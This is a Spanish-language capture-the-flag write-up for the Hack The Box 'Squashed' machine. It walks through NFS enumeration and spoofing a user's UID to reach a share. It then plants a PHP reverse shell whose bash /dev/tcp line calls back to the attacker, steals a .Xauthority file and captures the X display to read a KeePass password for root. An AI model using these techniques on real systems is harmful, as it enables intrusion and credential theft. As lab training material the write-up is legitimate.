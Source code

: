 # 🏳 Squashed



<figure><img src="../../../../.gitbook/assets/2b64823934eb46f2c531a0b650a03d60.png" alt=""><figcaption></figcaption></figure>

<table><thead><tr><th width="227">Datos</th><th width="288.3333333333333"> </th><th>Notas</th></tr></thead><tbody><tr><td>Nombre de la máquina: </td><td><a href="https://app.hackthebox.com/machines/Squashed">Squashed</a></td><td></td></tr><tr><td>IP de la máquina:</td><td>10.10.11.191</td><td></td></tr><tr><td>Sistema simulado: </td><td></td><td></td></tr><tr><td>Servicio vulnerado: </td><td></td><td></td></tr><tr><td>CVEs:</td><td></td><td></td></tr></tbody></table>

### 1. Enumeración y descubrimiento

Comenzamos la fase de enumeración de la máquina Squashed realizando una petición mediante nmap a  la IP desplegada buscando la información necesaria para comenzar. Comenzamos:

```bash
nmap -sC -sV -sT 10.10.11.191 -p-
```

<figure><img src="../../../../.gitbook/assets/1 (15).png" alt=""><figcaption></figcaption></figure>

En este punto vemos varios servicios, un ssh en el puerto 22, un http en el puerto 80, un RPC en el 111 y un nfs en el 2049. En este punto vamos a acceder al http para ver que servicio está desplegado.&#x20;

<figure><img src="../../../../.gitbook/assets/2 (16).png" alt=""><figcaption></figcaption></figure>

A priori en la web no encontramos nada que nos llame la atención, pese a que existe un apartado de login al cual no se puede acceder y que parece que es el típico apartado no montado que tienen algunas páginas de máquinas en HTB.

Como tenemos un puerto NFS abierto en el 2049 vamos a probar a usar `showmount` y montar los directorios que tengan, si es que tienen alguno.&#x20;

<figure><img src="../../../../.gitbook/assets/3 (6).png" alt=""><figcaption></figcaption></figure>

Como hemos descubierto estos directorios vamos a intentar montarlos en nuestra máquina, en el directorio mnt.&#x20;

```bash
mkdir /mnt/ross_folder && mkdir /mnt/web_folder
mount -t nfs 10.10.11.191:/home/ross /mnt/ross_folder -o nolock
mount -t nfs 10.10.11.191:/var/www/html /mnt/web_folder -o nolock
```

En este punto podremos intentar acceder a los directorios que hemos montado en nuestro equipo. Cuando intentamos acceder a `/mnt/ross_folder` tenemos el contenido de la carpeta sin muchos problemas e incluso vemos un fichero de Keepass que nos llama la atención a primera instancia.&#x20;

<figure><img src="../../../../.gitbook/assets/4 (7).png" alt=""><figcaption></figcaption></figure>

El problema viene cuando intentamos acceder a `/mnt/webfolder` y nos aparece que no tenemos permisos para acceder al contenido aunque podemos listar parte del mismo.&#x20;

<figure><img src="../../../../.gitbook/assets/5 (7).png" alt=""><figcaption></figcaption></figure>

Aunque comprobamos los permisos del directorio webshare y descubirmos que tiene el userid 2017, por lo que tenemos margend e maniobra.

<figure><img src="../../../../.gitbook/assets/6 (7).png" alt=""><figcaption></figcaption></figure>

### 2. Explotación

En este punto para intentar acceder a la carpeta crearemos un usuario y lo añadiremos al grupo e id 2017 y cambiaremos a él.&#x20;

```
useradd [Usuario]
usermod -u 2017 [Usuario]
sudo groupmod -g 2017 [Usuario]
```

<figure><img src="../../../../.gitbook/assets/7 (7).png" alt=""><figcaption></figcaption></figure>

En este punto podremos acceder al directorio y nos aprovecharemos para elaborar una revershell la cual podamos ejecutar apuntando a nuestra máquina consiguiendo acceso a la de HTB.

```
<?php system("bash -c 'bash -i &>/dev/tcp/[IP]/[PORT] <&1'");?>
```

Una vez creado el archivo simplemente lo ejecutaremos en la ruta del navegador consiguiendo la conexión desde nuestro netcat.&#x20;

<figure><img src="../../../../.gitbook/assets/8 (3).png" alt=""><figcaption></figcaption></figure>

En este punto habremos conseguido una bash con el usuario alex en la máquina de HTB y podremos ver la flag del usuario sin problemas. &#x20;



### 3. Escalada de privilegios Root

Llegado este punto tenemos que intentar escalar de privilegios del usuario alex a root. Para ello el archivo de keepass puede que sea interesante, pero no tenemos la contraseña para desbloquearlo por lo que tenemos que intentar acceder. Se nos ocurre usar `keepass2john` pero no tenemos mucho éxito. Revisando la carpeta `/mnt/ross_folder` nos encontramos con el archivo `.Xauthority` el cual parece interesante y sobre el que encontramos algo de [información](https://askubuntu.com/questions/300682/what-is-the-xauthority-file) en internet.&#x20;

<figure><img src="../../../../.gitbook/assets/9 (4).png" alt=""><figcaption></figcaption></figure>

Al parecer este fichero almacena la sesión del usuario que se encontraba en `ross_folder` por lo cual probablemente sea el usuario ross u otro el cual nos permita escalar privilegios. Para explotar este usuario lo que vamos a hacer es pasar este archivo e intentar usarlo para iniciar sesión en el keepass. Observamos que el usuario tiene el UID 1001 por lo que repetimos los pasos realizados anteriormente con el usuario galletas y asignamos ese UID a un nuevo usuario.&#x20;

En este punto deberemos de pasar el fichero .Xauthority a /tmp y levantar un servidor python en esa carpeta para compartirlo.

```
cat /mnt/ross_folder/.Xauthority | base64 > /tmp/xauth
cd /tmp && python3 -m http.server
```

<figure><img src="../../../../.gitbook/assets/10 (5).png" alt=""><figcaption></figcaption></figure>

```bash
wget http://[IP]:8000/xauth 
```

En este punto nos habremos descargado el archivo authority y tendremos que ponerlo en nuestra variable de entorno para poder utilizarlo.

```
export XAUTHORITY=/tmp/.Xauthority
```

{% hint style="danger" %}
Si no consigues pasar bien el archivo Xauthority  tendrás errores de "no protocol specified" ya que no podrás ver la pantalla. Ten cuidado al pasarlo ya que es crucial para resolverlo.&#x20;
{% endhint %}

En este punto ya solo debemos de ejecutar xwd de manera que se nos genera una captura de pantalla cuando abramos el archivo de la pass y tengamos una captura de keepass.

```
xwd -root -screen -silent -display :0 > /tmp/screen.xwd
```

Cuando hayamos conseguido acceso con el permiso instalado al hacer la captura de la pantalla nos aparecerá esta captura con la cual tendriamos acceso como root.&#x20;

<figure><img src="../../../../.gitbook/assets/11 (3).png" alt=""><figcaption></figcaption></figure>

En este momento iniciamos root en la máquina y accedemos a la flag finalizando la máquina.



<figure><img src="../../../../.gitbook/assets/12 (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
Si te he ayudado sígueme y apóyame en [Hack The Box ](https://app.hackthebox.com/profile/819073)
{% endhint %}

